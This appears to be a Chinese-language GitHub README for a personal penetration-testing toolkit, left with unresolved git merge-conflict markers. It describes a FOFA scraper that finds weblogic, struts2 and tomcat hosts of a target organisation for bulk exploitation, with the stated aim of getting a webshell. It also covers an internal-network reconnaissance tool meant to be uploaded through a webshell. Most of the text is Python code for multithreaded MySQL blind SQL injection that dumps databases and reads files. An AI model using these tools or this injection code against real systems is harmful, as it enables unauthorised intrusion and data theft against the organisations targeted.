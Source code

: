 <<<<<<< HEAD




# SomeTools

**自己使用的一些脚本和工具**

|             脚本              |       功能        |
| :---------------------------: | :---------------: |
|    blind_inject_getdata.py    |  二分法盲注利用   |
| mul_blind_injdect_dumpdata.py | 多线程and盲注利用 |
|fofa_search.py | 通过fafa批量爬取检索结果 |
| WebFinder.py | 获取存活的WEB URL以及对应的标题|

---

**fofa_search**

  该脚本通过多线程爬取搜索页面的链接信息，输入参数为网页登录后的cookie信息，可通过浏览器F12 查看网络连接复制获取，支持主机和web查询，在对目标组织进行渗透的时候可以使用该脚本检索目标主机存在weblogic\struts2\tomcat\致远OA等组件的主机，然后结合poc-t\pocsuite\pocstart等漏洞检测框架批量检测，运气好的话很容易就能拿到webshell.

example:
  以下对目标组织检索tomcat主机检索然后利用pocstart批量检测并发现文件下载漏洞。

  ```
  fofa dork:org="XXX Limited" && region="CN" && protocol=="ajp"
  ```
  ![image-20200524100713379](images/fofa_v2.png)
  ![](images/test_1.png)

*ReadMe*：https://forum.90sec.com/t/topic/1051

---

**WebFinder**

  该脚本主要是为了检索目标组织存活的web host以及对应的web标题，通过标题信息粗略定位下一步渗透的目标系统，通常用于内网渗透过程的信息收集，对于只能通过webshell 操作的目标，可以使用pyinstaller打包上传到目标机器进行内网信息收集，然后利用regeorg代理渗透内网。附件也提供了一个打包好的exe
 ![](images/image-20200524001731394.png)

---

**BlindInject_dump**

前段时间先知发了一篇关于盲注效率分析的文章(https://xz.aliyun.com/t/7575)，里面提到了三种盲注利用方法：**遍历法|二分法|与运算**，这里分享一下mysql盲注场景下利用二分法和与运算注入数据通用脚本。

* **实现功能**

| API                  | 功能                           |
| :------------------- | :----------------------------- |
| get_current_database | 获取当前数据库                 |
| get_current_user     | 获取当前用户                   |
| get_dbs              | 获取所有数据库                 |
| get_tables           | 获取指定数据库表名             |
| get_columns          | 获取指定数据表列名             |
| dump                 | 获取指定列数据                 |
| dump_all             | 自动化dump指定数据库的所有数据 |
| read_file            | 读取文件                       |

 ![](images/image-20200529201837138.png)

# 二分法：

这种方法比较简单，就是重复搜索判断某一个值是否介于一个区间，直至区间消失也就是区间左边界等于右边界的时候的边界值就是我们要寻找的值。

```python
def double_search(table_name, col_name, in_limit='0', index="", query =query,left_number=0, right_number=0):
    while True:
        payload = get_payload(table_name, col_name, in_limit, index, value=str(right_number), query=query)
        text = send_data(payload)
        if find_success(success_flag, text):
            left_number = right_number
            right_number = 2*right_number
        else:
            break

    while left_number < right_number:
        mid = int((left_number + right_number) / 2)
        payload = get_payload(table_name,col_name,in_limit,index,value=str(mid),query =query)
        text =send_data(payload)
        if find_success(success_flag, text):
            left_number = mid
        else:
            right_number = mid
        if left_number == right_number - 1:
            payload = get_payload(table_name, col_name, in_limit, index, value=str(mid), query=query)
            text = send_data(payload)
            if find_success(success_flag, text):
                mid += 1
                print('found')
                break
            else:
                break
    return mid
```

# 与运算：

一个字符是由8个二进制位构成，可以使用每个二进制位分别和1进行与操作，在两个操作数都是1的情况下结果才为1，所以利用这个特性可以分别获取每个二进制位进而得到该字符的ascii，当然实际编写代码的时候，我们肯定不是获取每一个二进制位来判定返回值的真假，对于一个10进制数 v,我们知道

```v= a*2^7+b*2^6+c*2^5+d*2^4+e*2^3+f*2^2+g*2^1+h*2^0  ```，其中[a-h]是八个二进制位，只需要进行 v&[2^i],i 属于 [0-7]，然后分别把得到的结果相加就可以得到 v，为了能够方便的多线程并发，可以假设[a-h]都是1,当假设成立的时候，条件为真，可以不做处理，否则将对应的二进制值置为0，最后按照前文计算公式得到v的值，进而获取全部数据。

![image-20200529205101029](images/image-20200529205101029.png)

```python
def get_values_by_and_blind(table_name, col_name, in_limit='0', query =query):
    cu_query = query
    len = int(get_length(table_name, col_name, in_limit,cu_query))
    text = ""
    if len > 0:
        payloads = []
        for  i in range(1,len+1):
            for j in range(8):
                value = 2 ** j
                payload = get_payload(table_name, col_name, in_limit, str(i), value=str(value), query=query)
                data = {}
                data['index'] = i
                data['value'] = value
                data['payload'] = payload
                payloads.append(data)
        dump = DATA_AND(payloads)  # params(threadnums,url_lists)
        dump._start()
        group_list = []
        indexs  = list(set([i.get('index') for i in payloads]))
        for index in indexs:
            temp = []
            for payload in payloads:
                if payload.get('index') == index:
                    temp.append(payload['value'])
            group_list.append(temp)
        _ = [sum(v) for v in group_list]
        text = ''.join([chr(v) for v in _])
        print("In program: " + text)
    return text


class DATA_AND(object):
    def __init__(self, payloads):
        self.threads = conf['thread_num']
        self.payloads = payloads
        self.mutex = Lock()

    def run(self, payload):
        try:
            data = payload['payload']
            text = send_data(data)
            if not find_success(success_flag, text):
                value = 0
                self.mutex.acquire()
                payload['value'] = value
                self.mutex.release()
        except Exception as e:
            print e.message

    def _start(self):
        try:

            pool = ThreadPool(processes=self.threads)
            pool.map_async(self.run, self.payloads).get(0xffff)
            pool.close()
            pool.join()

        except Exception as e:
            print e
        except KeyboardInterrupt:
            print '[!] user quit!'
            sys.exit(1)
```
![image-20200529234700625](images/image-20200529234700625.png)

![image-20200529234735321](images/image-20200529234735321.png)

*ReadMe* : https://forum.90sec.com/t/topic/1076

---
=======
# SomeTools
自己使用的一些脚本和工具.

## fofa_search.py
fofa 采集脚本
![1](https://github.com/ggg4566/SomeTools/blob/master/images/fofa_.png)
>>>>>>> a15c3c414f80b2332e92b9e44d9bda1ca3cd942e

